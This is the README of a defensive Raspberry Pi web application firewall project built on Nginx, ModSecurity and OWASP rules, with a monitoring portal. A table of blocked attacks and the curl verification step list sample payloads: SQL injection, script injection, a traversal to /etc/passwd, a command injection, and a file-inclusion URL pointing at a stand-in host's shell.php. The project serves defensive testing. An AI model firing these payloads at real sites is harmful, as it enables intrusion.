










# Pi WAF — Web Application Firewall on Raspberry Pi

Hands-on Blue Team project: Building a production-grade Web Application Firewall on Raspberry Pi — giving the same real-world experience as professional vendors like Cloudflare, Fortinet & Palo Alto at a fraction of the cost.



---

## Author

**Arun Krishna B V**

SOC Analyst | IoT + Blue Team  
arunkrishnaiot@gmail.com

---

## Demo Video

[](https://youtube.com/watch?v=YOURVIDEOID)

> Click the image above to watch the full demo on YouTube

---

## Table of Contents
- [Overview](#overview)
- [Architecture](#architecture)
- [Tech Stack](#tech-stack)
- [Features](#features)
- [Attack Types Blocked](#attack-types-blocked)
- [OWASP CRS Rules](#owasp-crs-rules)
- [Installation](#installation)
- [Screenshots](#screenshots)
- [Project Structure](#project-structure)

---

## Overview

This project implements a fully functional Web Application Firewall using a **Raspberry Pi** as the WAF server. ModSecurity v3 and Nginx were compiled from source and loaded with the complete OWASP Core Rule Set (841 rules) running in full blocking mode.

Every inbound HTTP request is inspected before reaching the backend. Malicious payloads get a `403 Blocked`. Clean traffic passes through.

On top of the WAF engine, a **custom security monitoring portal** was built from scratch — no Grafana, no third-party SIEM — providing a vendor-grade dashboard for real-time attack monitoring and management.

---

## Architecture

```
Internet → Ngrok Tunnel → Nginx + ModSecurity (Port 80)
                                  ↓
                         ModSecurity Inspection
                       ↙                        ↘
          Attack → BLOCK (403)        Clean → Flask App (Port 7777)
          Log to modsec_audit.log      Normal response to client
          Fail2ban bans IP
                                  ↓
                    Pi WAF Portal (Port 8080) — Live Monitoring
```

---

## Tech Stack

| Component | Tool | Purpose |
|-----------|------|---------|
| WAF Engine | Nginx 1.24.0 (compiled from source) | Reverse proxy + WAF layer |
| Inspection Module | ModSecurity v3 (compiled from source) | Full blocking mode |
| Ruleset | OWASP CRS 3.x | 841 attack detection rules |
| Auto-ban | Fail2ban | Bans IPs after 3 blocked attempts |
| Target App | Flask (Python) | Realistic banking app with attack surfaces |
| Internet Tunnel | Ngrok | Live external attack testing |
| Portal Backend | Python Flask | REST API, log parsing, session management |
| Charts | Chart.js 4.4.0 | Timeline, attack type distribution |
| Map | Leaflet.js 1.9.4 | Interactive geo attack map |
| Geo IP | ip-api.com + server-side cache | IP geolocation without rate limits |

---

## Features

- Real-time attack monitoring dashboard
- Activity timeline — attacks per hour (last 24h)
- Attack type distribution — SQLi, XSS, LFI, Scanners, Anomaly
- Top attacker IPs with one-click block
- Interactive geo attack map with real IP geolocation
- **Two-tab event logs** — Attack Logs + Normal Traffic (separated)
- Manual IP blocking via iptables
- Fail2ban integration — auto-ban after 3 attacks
- Country-level geo blocking (25 countries)
- Live custom SecRule editor — write a rule, Nginx reloads instantly
- Full OWASP CRS rule browser — 841 rules with ID, file, phase, severity
- WAF Test runner — fires real attack payloads and confirms blocking
- All 5 services auto-start on every boot via systemd

---

## Attack Types Blocked

| Attack Type | Example Payload | Result |
|-------------|----------------|--------|
| SQL Injection | `/?id=1' OR '1'='1` | ✅ BLOCKED (403) |
| Cross-Site Scripting (XSS) | `/?q=<script>alert(1)</script>` | ✅ BLOCKED (403) |
| Path Traversal | `/?file=../../etc/passwd` | ✅ BLOCKED (403) |
| Command Injection | `/?cmd=;ls -la` | ✅ BLOCKED (403) |
| Remote File Inclusion | `/?url=http://evil.com/shell.php` | ✅ BLOCKED (403) |
| Scanner Detection | Nikto, Nmap HTTP scan | ✅ BLOCKED (403) |

---

## OWASP CRS Rules

| Rule File | Category | Rules |
|-----------|----------|-------|
| REQUEST-901-INITIALIZATION | CRS Initialization | 30 |
| REQUEST-911-METHOD-ENFORCEMENT | HTTP Method enforcement | 1 |
| REQUEST-913-SCANNER-DETECTION | Scanner detection | 1 |
| REQUEST-920-PROTOCOL-ENFORCEMENT | Protocol enforcement | 54 |
| REQUEST-921-PROTOCOL-ATTACK | Protocol attack | 18 |
| REQUEST-930-APPLICATION-ATTACK-LFI | Local File Inclusion | 6 |
| REQUEST-931-APPLICATION-ATTACK-RFI | Remote File Inclusion | 5 |
| REQUEST-932-APPLICATION-ATTACK-RCE | Remote Code Execution | 25 |
| REQUEST-933-APPLICATION-ATTACK-PHP | PHP injection | 17 |
| REQUEST-941-APPLICATION-ATTACK-XSS | Cross-Site Scripting | 20 |
| REQUEST-942-APPLICATION-ATTACK-SQLI | SQL Injection | 200+ |
| ... and more | Various | 841 total |

---

## Installation

### Prerequisites
- Raspberry Pi 4 (2GB RAM minimum)
- Debian GNU/Linux 13 (Trixie) or Ubuntu
- Python 3 + pip
- Internet connection

### Step 1 — Install Dependencies
```bash
sudo apt update && sudo apt upgrade -y
sudo apt install -y build-essential libpcre2-dev libssl-dev zlib1g-dev \
  libgeoip-dev libyajl-dev libxml2-dev libcurl4-openssl-dev \
  python3 python3-pip fail2ban git
pip3 install flask
```

### Step 2 — Build ModSecurity v3
```bash
git clone https://github.com/SpiderLabs/ModSecurity
cd ModSecurity
git submodule init && git submodule update
./build.sh
./configure --with-pcre2
make && sudo make install
```

### Step 3 — Build Nginx with ModSecurity
```bash
git clone https://github.com/SpiderLabs/ModSecurity-nginx.git
wget http://nginx.org/download/nginx-1.24.0.tar.gz
tar -xzf nginx-1.24.0.tar.gz && cd nginx-1.24.0
./configure --add-module=../ModSecurity-nginx --with-http_realip_module
make && sudo make install
```

### Step 4 — Load OWASP Core Rule Set
```bash
git clone https://github.com/coreruleset/coreruleset
sudo cp -r coreruleset /usr/local/nginx/conf/coreruleset
sudo cp /usr/local/nginx/conf/coreruleset/crs-setup.conf.example \
        /usr/local/nginx/conf/coreruleset/crs-setup.conf
```

### Step 5 — Deploy WAF Portal
```bash
git clone https://github.com/arunkrishnaiot/pi-waf
cd pi-waf
sudo mkdir -p /etc/piwaf
python3 app.py  # Portal runs on port 8080
```

### Step 6 — Verify
```bash
# Check all services running
sudo systemctl status nginx-waf fail2ban target-app piwaf-portal ngrok

# Test WAF is blocking
curl "http://localhost/?id=1' OR '1'='1"       # Should return 403
curl "http://localhost/?q=<script>alert(1)"     # Should return 403
curl "http://localhost/?file=../../etc/passwd"  # Should return 403
```

---

## Screenshots

### Dashboard Overview


### Top Attacker IPs & Geo Attack Map


### Attack Logs


### Normal Traffic Logs


### Security Management




### OWASP CRS Rules


### WAF Status


### Restart WAF Modal


### Target Banking Application (Protected)


---

## Project Structure

```
pi-waf/
├── README.md
├── app.py                    # Portal Flask backend
├── target_app.py             # Banking target application
├── templates/
│   ├── base.html             # Main portal UI
│   └── login.html            # Login page
├── screenshots/
│   ├── dashboard.png
│   ├── map.png
│   ├── attack_logs.png
│   ├── normal_traffic.png
│   ├── security.png
│   ├── security2.png
│   ├── owasp_rules.png
│   ├── waf_status.png
│   ├── restart_waf.png
│   └── target_app.png
└── docs/
    └── PiWAF_Documentation.docx
```

---

## References

- [ModSecurity Documentation](https://github.com/SpiderLabs/ModSecurity)
- [OWASP Core Rule Set](https://coreruleset.org/)
- [Nginx Documentation](https://nginx.org/en/docs/)
- [Fail2ban Documentation](https://www.fail2ban.org/wiki/index.php/Main_Page)
- [ip-api Geolocation](https://ip-api.com/)

---

## License

MIT License — feel free to use and modify!
